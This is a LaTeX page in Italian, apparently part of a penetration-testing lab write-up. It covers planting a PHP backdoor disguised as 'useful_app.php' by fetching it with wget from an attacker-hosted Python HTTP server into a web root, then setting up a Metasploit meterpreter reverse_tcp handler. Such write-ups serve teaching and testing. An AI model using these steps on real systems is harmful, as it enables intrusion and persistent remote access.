 \documentclass[a4paper, 12pt, oneside]{article}
\begin{document}
\subsection{Trasferimento della backdoor}
Per ottenere il risultato richiesto da \texttt{(1)} è possibile utilizzare \textbf{python} ed in particolare il modulo \texttt{http.server} in questo modo:

\begin{center}
    \texttt{python -m http.server 8084}
\end{center}

dove \texttt{8084} è la porta in cui il server accetterà connessioni. Questo comando va eseguito nella stessa cartella dove è presente il payload.

Per quanto riguarda invece la \texttt{(2)}, avendo già a disposizione la shell di root nell'asset, è sufficiente spostarsi nella directory \texttt{/var/www/html/} e lanciare il comando

\begin{center}
    \texttt{wget 192.168.64.23:8084/useful\_app.php}
\end{center}

\begin{figure}[h!]
    \centering
    \includegraphics[width=\textwidth]{img/wget.png}
    \caption{Trasferimento della backdoor}
\end{figure}

\subsection{Creazione dell'handler}
A questo punto, è necessario creare l'handler che si metterà in ascolto sulla macchina Kali. Il modulo di Metasploit di riferimento è il generico \texttt{exploit/multi/handler} ed utilizza come payload \texttt{php/meterpreter/reverse\_tcp}. Essendo questo un contesto \textbf{reverse} è necessario specificare solamente il parametro \texttt{LHOST}, che deve contenere l'indirizzo della macchina dell'attaccante. 
\end{document}

